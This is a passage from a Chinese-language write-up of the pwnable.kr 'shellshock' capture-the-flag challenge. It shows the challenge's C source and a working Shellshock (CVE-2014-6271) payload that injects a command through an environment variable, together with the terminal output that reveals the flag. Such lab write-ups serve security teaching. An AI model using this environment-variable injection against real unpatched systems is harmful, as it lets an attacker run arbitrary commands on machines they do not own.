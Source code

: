 可以看到 `shellshock` 和 `flag` 的 GROUP 都为 `shellshock2`，而当前用户组为 `shellshock`，这里通过查看 `shellshock.c` 源码发现，可以利用 shellshock 漏洞来在 `shellshock` 程序的环境中设置好 UID 和 GID 然后去执行 `cat flag`。`shellshock.c` 源码如下：

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

`/home/shellshock/bash` 经过测试存在 shellshock 漏洞：

![](/images/articles/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/shellshock-1.png)

因此直接构造 Payload：`env x='() { :;}; /bin/cat flag' ./shellshock` 即可得到 flag：

	shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
	only if I knew CVE-2014-6271 ten years ago..!!
	Segmentation fault
	shellshock@ubuntu:~$

